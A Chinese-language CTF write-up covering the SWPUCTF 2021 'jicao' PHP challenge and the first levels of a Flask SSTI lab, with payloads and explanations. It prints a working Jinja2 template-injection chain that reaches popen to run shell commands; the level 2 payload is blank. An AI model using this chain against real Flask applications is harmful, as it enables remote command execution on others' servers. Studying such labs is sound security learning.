

#### [SWPUCTF 2021 新生赛]jicao

代码：



`json_decode`是对内容进行json解码，要求是解码后`$json` 数组中的 `x` 键对应的值等于 `"wllm"`，变量 id 等于字符串"wllmNB

payload：

```
URL/?json={"x":"wllm"}
POST:
id=wllmNB
```

json解码后是

```
array (
  'x' => 'wllm',
)
```


#### ssti-flask-labs

这算是SSTI的入门

分了13个level

##### level1

什么也没过滤，payload：

```
{{().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

解释一下：

```
().__class__.__base__是为了拿到object
().__class__.__base__.__subclasses__()为了拿到object的全部子类
由于是以数组形式呈现，可以直接用数字索引，这里133索引的是类<class 'os._wrap_close'>，为的是里面的eval进行rce
然后是__init__初始化，初始化方法后通过__globals__魔术方法来返回当前类方法中的全局变量字典
这里用popen函数来执行系统命令，在后面加上具体的函数名即可找到对应的函数
后面加.read()是因为popen方法返回的是一个与子进程通信的对象，为了从该对象中获取子进程的输出，因此需要使用read()方法来读取子进程的输出，然后就可以执行命令了
```

##### level2

过滤了`{}`，可以用``来代替，不过要加一个`print()`（不知道为什么）

payload：

```

```

